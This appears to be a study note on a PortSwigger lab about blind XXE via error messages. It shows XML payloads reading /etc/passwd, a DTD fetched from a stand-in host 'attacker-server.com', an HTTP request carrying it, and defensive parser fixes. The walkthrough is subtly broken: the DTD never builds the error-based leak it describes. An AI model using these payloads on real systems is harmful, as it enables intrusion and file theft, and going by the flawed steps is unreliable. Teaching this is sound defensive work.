

## Detailed Example: Exploiting Blind XXE to Retrieve Data via Error Messages

### Background Theory

To understand how to exploit blind XXE, we need to delve into the technical details of XML parsing and how external entities work. XML documents can contain references to external entities using the `<!ENTITY>` declaration. These entities can reference local files, network resources, or even execute system commands.

### Step-by-Step Mechanics

1. **Identify Vulnerable Input**: Find inputs that accept XML content.
2. **Host Malicious DTD**: Place the malicious DTD on an attacker-controlled server.
3. **Inject Reference**: Inject a reference to the malicious DTD in the XML input.
4. **Trigger Parsing**: Submit the XML input to the application.
5. **Monitor Responses**: Analyze error messages or other indirect indicators to infer the success of the attack.

### Complete Code Example

Let's walk through a complete example of exploiting blind XXE to retrieve data via error messages.

#### Step 1: Identify Vulnerable Input

First, identify an input that accepts XML content. For this example, let's assume we have found an input that accepts XML content.

```xml
<request>
    <data><![CDATA[<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "file:///etc/passwd">
%file;
]><root>&file;</root>]]></data>
</request>
```

#### Step 2: Host Malicious DTD

Next, we need to host the malicious DTD on an attacker-controlled server. For this example, let's assume we have set up an attacker-controlled server at `http://attacker-server.com/malicious.dtd`.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
%file;
```

#### Step 3: Inject Reference

Now, we need to inject a reference to the malicious DTD in the XML input.

```xml
<request>
    <data><![CDATA[<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "http://attacker-server.com/malicious.dtd">
%file;
]><root>&file;</root>]]></data>
</request>
```

#### Step 4: Trigger Parsing

Submit the XML input to the application.

```http
POST /api/v1/submit HTTP/1.1
Host: vulnerable-app.com
Content-Type: application/xml

<request>
    <data><![CDATA[<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "http://attacker-server.com/malicious.dtd">
%file;
]><root>&file;</root>]]></data>
</request>
```

#### Step 5: Monitor Responses

Analyze the error messages or other indirect indicators to infer the success of the attack.

```http
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
    <title>Error</title>
</head>
<body>
    <h1>An error occurred</h1>
    <p>The requested resource could not be processed.</p>
    <pre>java.io.IOException: Server returned HTTP response code: 404 for URL: http://attacker-server.com/malicious.dtd</pre>
</body>
</html>
```

### Mermaid Diagrams

#### Attack Chain Diagram



### Common Mistakes

- **Incorrect DTD Syntax**: Ensure that the DTD syntax is correct and follows the XML specification.
- **Incorrect File Path**: Ensure that the file path is correct and accessible.
- **Incorrect Error Handling**: Ensure that the application handles errors correctly and does not leak sensitive information.

### How to Prevent / Defend

#### Detection

- **Logging**: Enable detailed logging to capture XML parsing errors and other suspicious activity.
- **Monitoring**: Monitor for unusual patterns of XML input and error messages.

#### Prevention

- **Validation**: Validate all XML input to ensure it does not contain malicious content.
- **Configuration**: Configure XML parsers to disable external entity resolution.
- **Hardening**: Harden the application to prevent unauthorized access to sensitive information.

#### Secure Coding Fixes

**Vulnerable Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

**Secure Code**

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbFactory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Practice Labs

For hands-on practice with XXE injection, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive XXE injection lab.
- **OWASP Juice Shop**: Provides a variety of web security challenges, including XXE injection.
- **DVWA**: A deliberately vulnerable web application for practicing web security techniques.
- **WebGoat**: A web application security training tool that includes XXE injection exercises.

By following these steps and understanding the underlying concepts, you can effectively exploit and defend against blind XXE injection attacks.

---
<!-- nav -->
[[02-Blind XXE Injection|Blind XXE Injection]] | [[Web Security (PortSwigger)/08-XXE Injection/07-Lab 6 Exploiting blind XXE to retrieve data via error messages/00-Overview|Overview]] | [[Web Security (PortSwigger)/08-XXE Injection/07-Lab 6 Exploiting blind XXE to retrieve data via error messages/04-Detailed Explanation of the Lab|Detailed Explanation of the Lab]]
